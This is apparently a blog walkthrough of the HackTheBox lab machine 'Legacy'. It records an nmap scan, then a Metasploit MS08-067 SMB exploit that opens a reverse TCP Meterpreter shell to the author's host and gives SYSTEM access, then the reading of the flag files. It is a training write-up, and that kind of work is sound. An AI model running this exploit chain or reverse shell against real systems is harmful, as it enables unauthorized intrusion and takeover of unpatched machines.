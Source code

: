 ```yaml
---
title: "Walk-through of Legacy from HackTheBox"
header:
  teaser: /assets/images/2020-05-05-22-13-16.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - HTB
  - CTF
  - SMB
  - Metasploit
  - Windows
---
```


## Machine Information

![Legacy](/assets/images/2020-05-05-22-13-16.png)

Legacy is a beginner level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access.
Skills required are basic knowledge of Windows and enumerating ports and services. Skills learned are identifying vulnerable services and exploiting SMB.

<!--more-->

| Details |  |
| --- | --- |
| Hosting Site | [HackTheBox](https://www.hackthebox.eu/) |
| Link To Machine | [HTB - 002 - Easy - Legacy](https://www.hackthebox.eu/home/machines/profile/2) |
| Machine Release Date | 15th March 2017 |
| Date I Completed It | 23rd July 2019 |
| Distribution used | Kali 2019.1 – [Release Info](https://www.kali.org/news/kali-linux-2019-1-release/) |

### Initial Recon

Check for open ports with Nmap:

```text
root@kali:~/htb/legacy# nmap -sC -sV -oA legacy 10.10.10.4

Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-23 14:48 BST
Nmap scan report for 10.10.10.4
Host is up (0.039s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows,cpe:/o:microsoft:windows_xp
 Host script results:
 |_clock-skew: mean: 5d00h23m48s, deviation: 2h07m16s, median: 4d22h53m48s
 |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b0:7a:76 (VMware)
 | smb-os-discovery: 
 |   OS: Windows XP (Windows 2000 LAN Manager)
 |   OS CPE: cpe:/o:microsoft:windows_xp::-
 |   Computer name: legacy
 |   NetBIOS computer name: LEGACY\x00
 |   Workgroup: HTB\x00
 |_  System time: 2019-07-28T18:42:51+03:00
 | smb-security-mode: 
 |   account_used: guest
 |   authentication_level: user
 |   challenge_response: supported
 |_  message_signing: disabled (dangerous, but default)
 |_smb2-time: Protocol negotiation failed (SMB2)
```

## Method Using Meterpreter

### Gaining Access

The machine is running on Windows XP, start msfconsole and look for exploit:

```text
root@kali:~/htb/legacy# service postgresql start
root@kali:~/htb/legacy# msfconsole
```

Well known exploit for XP is netapi:

```text
msf5 > search netapi

Matching Modules
================ 
  #  Name                                 Disclosure Date  Rank    Check  Description
  -  ----                                 ---------------  ----    -----  -----------
  -     0  exploit/windows/smb/ms03_049_netapi  2003-11-11       good    No     MS03-049 Microsoft Workstation Service NetAddAlternateComputerName Overflow
  -     1  exploit/windows/smb/ms06_040_netapi  2006-08-08       good    No     MS06-040 Microsoft Server Service NetpwPathCanonicalize Overflow
  -     2  exploit/windows/smb/ms06_070_wkssvc  2006-11-14       manual  No     MS06-070 Microsoft Workstation Service NetpManageIPCConnect Overflow
  -     3  exploit/windows/smb/ms08_067_netapi  2008-10-28       great   Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
```

Says rank is great so try this:

```text
msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > options
Module options (exploit/windows/smb/ms08_067_netapi): 
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)
Exploit target: 
   Id  Name
   --  ----
   0   Automatic Targeting

msf5 exploit(windows/smb/ms08_067_netapi) > set RHOST 10.10.10.4
RHOST => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > exploit
[*] Started reverse TCP handler on 10.10.14.22:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (179779 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.22:4444 -> 10.10.10.4:1035) at 2019-07-23 15:02:01 +0100
```

### User and Root Flags

Meterpreter session connected, take a look around:

```text
meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > pwd
C:\
```

Exploit has connected me as System, so can get both flags:

```text
meterpreter > cat "Documents and Settings\john\desktop\user.txt"
meterpreter > cat "Documents and Settings\administrator\desktop\root.txt"
```

All done, that was nice and easy.
